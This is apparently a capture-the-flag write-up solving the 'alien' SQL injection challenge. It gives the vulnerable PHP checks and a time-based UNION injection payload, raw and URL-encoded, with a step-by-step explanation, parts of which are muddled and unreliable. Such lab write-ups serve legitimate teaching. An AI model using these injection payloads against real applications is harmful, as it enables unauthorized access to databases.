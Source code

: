 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 32
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d4c56057-01fa-4f0c-8360-441f987427c3)

We are provided with the SQL queries:

```sql
SELECT id FROM prob_alien WHERE no={$_GET[no]}
```

```sql
SELECT id FROM prob_alien WHERE no='{$_GET[no]}'
```

In order to solve this challenge, we have to pass the following checks:

```php
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] !== "admin") exit("sandbox1");
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] === "admin") exit("sandbox2");
$r = mysqli_fetch_array(mysqli_query($db,$query2));
if($r['id'] === "admin") exit("sandbox");
$r = mysqli_fetch_array(mysqli_query($db,$query2));   if($r['id'] === "admin") solve("alien");
```

- The first query checks if the fetched `id` is not `"admin"`. If true, it exits.
- The second query checks if the fetched `id` is `"admin"`. If true, it exits.
- The third query checks if the fetched `id` is `"admin"`. If true, it exits.
- The fourth query checks if the fetched `id` is `"admin"`. If true, it calls a function `solve("alien")`.

In order to solve this challenge, we need to create a self-modifying query.


## Self-modifying query

```sql
1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)%23' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

- **`(!sleep(1) && now() % 2 == 1)`**:
	- `!sleep(1)` effectively becomes `False` or `0` since after 1 second, the `sleep` function returns. Otherwise it is `True` or `1`.
	- `now() % 2 == 1` checks if the current time in seconds is an odd number.
	- Combine these using the `&&` (logical AND), which evaluates to `False` or `0` if `!sleep(1)` is `0`. Otherwise it results in `True` or `1`.
- **`hex(10+(!sleep(1)&&now()%2=1))`**:
	- If result of `sleep` is `1`, `hex(10+1)` results in `b`.
	- If result of `sleep` is `0`, `hex(10+0)` results in `a`.
- **`lower(hex(10+(!sleep(1)&&now()%2=1)))`**:
	- Converts the entire string to lowercase.
- **`concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)`**
	- Concatenates the string to `dmin`.
	- If result of `sleep` is `1`, `concat(0x11,0x646d696e)` results in `bdmin`.
	- If result of `sleep` is `0`, `concat(0x10,0x646d696e)` results in `admin`.

&nbsp;

If we provide the following URI parameter:

```
?no=1%20UNION%20SELECT%20concat(lower(hex(10%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%27%20UNION%20SELECT%20concat(lower(hex(9%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%20
```

The resultant first query becomes:

```sql
SELECT id FROM prob_alien WHERE no=1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)#' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ae221b2c-088e-40c2-9bf4-72d563eb8e9c)
